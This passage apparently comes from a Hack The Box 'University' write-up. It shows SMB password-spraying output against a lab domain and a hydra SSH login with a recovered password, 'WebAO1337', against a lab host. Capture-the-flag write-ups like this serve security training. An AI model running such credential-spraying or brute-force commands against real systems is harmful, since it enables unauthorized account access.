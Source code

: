 ```c
SMB         192.168.99.2    445    WS-3             [-] university.htb\Lisa.K:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Martin.T:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Nour Qasso:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Nya Laracrof:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Nya.R:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Rose.L:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Steven.P:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [+] university.htb\WAO:WebAO1337 
SMB         192.168.99.2    445    WS-3             [-] university.htb\William.B:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] Connection Error: Error while reading from remote
SMB         192.168.99.2    445    WS-3             [-] university.htb\carol helgen:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\george:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\hana:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\karma.watterson:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\martin rose:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\martin.rose:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\nour:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\nya:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\steven Universe:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\steven.U:WebAO1337 STATUS_LOGON_FAILURE
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/University/files]
└─$ hydra 192.168.99.12 -l wao -p 'WebAO1337' ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-27 18:10:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking ssh://192.168.99.12:22/
[22][ssh] host: 192.168.99.12   login: wao   password: WebAO1337
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-27 18:10:32
```
